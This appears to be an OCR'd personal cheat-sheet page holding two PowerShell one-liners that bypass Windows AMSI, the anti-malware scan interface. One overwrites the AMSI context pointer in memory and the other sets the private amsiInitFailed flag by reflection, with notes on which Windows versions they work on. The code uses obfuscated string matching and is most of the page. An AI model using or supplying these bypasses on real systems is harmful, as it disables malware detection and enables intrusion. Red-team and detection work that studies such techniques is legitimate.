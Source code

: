 
- Bypass AMSI with powershell (*Note* probably Win10 only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

- Win10 Bypass AMSI through amsiInitFailed (does not work on Win11 as far as I can tell)
	- Error on Win11 `MethodInvocationException: Exception calling "SetValue" with "2" argument(s): "Cannot set initonly static field 's_amsiInitFailed' after type 'System.Management.Automation.AmsiUtils' is initialized."`
	- TODO: research this more
```powershell
$a=[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
$d=$c.GetFields('NonPublic,Static')
Foreach($e in $d) {if ($e.Name -like "*ms*nit*ai*") {$f=$e}}
$g=$f.SetValue($null,$true)
```

